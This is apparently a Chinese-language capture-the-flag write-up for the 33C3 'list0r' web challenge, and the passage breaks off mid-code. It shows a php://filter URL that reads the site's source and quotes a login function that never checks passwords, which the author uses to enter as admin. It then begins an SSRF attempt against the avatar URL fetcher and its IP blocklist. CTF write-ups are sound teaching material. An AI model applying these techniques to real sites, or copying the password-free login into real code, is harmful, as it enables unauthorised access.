 [https://github.com/p4-team/ctf/tree/master/2016-12-27-33c3/web_400_list0r](https://github.com/p4-team/ctf/tree/master/2016-12-27-33c3/web_400_list0r)


打开之后随便逛逛，就能发现所有页面是通过包含进来的，那么我们可以通过伪协议来读源码
```
http://78.46.224.80/?page=php://filter/read=convert.base64-encode/resource=profile
```

不得不说，这是个蛮大的站，零零散散功能非常多，但是，仔细观察发现一个比较弱的函数，在`functions.php`里
```
function verify_password($username, $password) {
        global $redis;

        $user_id = $redis->hget("users", $username);
        if ($user_id) {
            $real_pass = $redis->hget("user:$user_id", "password");
            return $user_id;
        }
        return FALSE;
    }
```

我们能注意到，这里并没有验证密码，我们可以直接登陆admin用户，进入到用户后，我们发现list有几个提示

![image_1b5f9kuqrqaqq4pdolislj9tm.png-43.2kB][2]

我们知道了flag的位置，直接访问我们发现
![image_1b5f9mhh41hvf13b0jgq19sv14tc13.png-18.8kB][3]

稍微试下发现这个东西是绕不过去的，所以找找别的东西吧

很快就能发现，这个头像处可以通过提交链接来得到内容，如果我们能绕过这里的话，我们可以成功的构造一个ssrf

![image_1b5fa0r9f1tl385i1qc3nj6o2d1g.png-46.1kB][4]

看看代码

```
if (isset($_POST["pic"]) && $_POST["pic"] != "" && !is_admin()) {
    $pic = get_contents($_POST["pic"]);
    if (!is_image($pic)) {
        die("<p><h3 style=color:red>Does this look like an image to you???????? people are dumb these days...</h3></p>" . htmlspecialchars($pic));
    } else {
        $pic_name = "profiles/" . sha1(rand());
        file_put_contents($pic_name, $pic);
    }
}
```
有个比较关键的是get_content

```
function in_cidr($cidr, $ip) {
    list($prefix, $mask) = explode("/", $cidr);

    return 0 === (((ip2long($ip) ^ ip2long($prefix)) >> $mask) << $mask);
}

function get_contents($url) {
    $disallowed_cidrs = [ "127.0.0.1/24", "169.254.0.0/16", "0.0.0.0/8" ];

    do {
        $url_parts = parse_url($url);

        if (!array_key_exists("host", $url_parts)) {
            die("<p><h3 style=color:red>There was no host in your url!</h3></p>");
        }

```

  [1]: http://static.zybuluo.com/LoRexxar/xcr4ueiusbgkotwnkacer1ye/image_1b5a4fdv5nso1euk4171vh61sk69.png
  [2]: http://static.zybuluo.com/LoRexxar/dlkrbrj0231150ibg9x75dkf/image_1b5f9kuqrqaqq4pdolislj9tm.png
  [3]: http://static.zybuluo.com/LoRexxar/roqgxrzbm5g5e8ty0z6ei8vv/image_1b5f9mhh41hvf13b0jgq19sv14tc13.png
  [4]: http://static.zybuluo.com/LoRexxar/wms809g28pe6nmr4n4fgfw8d/image_1b5fa0r9f1tl385i1qc3nj6o2d1g.png
  [5]: http://static.zybuluo.com/LoRexxar/cd10qwc9x8sbnttjsp0zumge/image_1b5fb5vmq16toguhf5c1t1m1g121t.png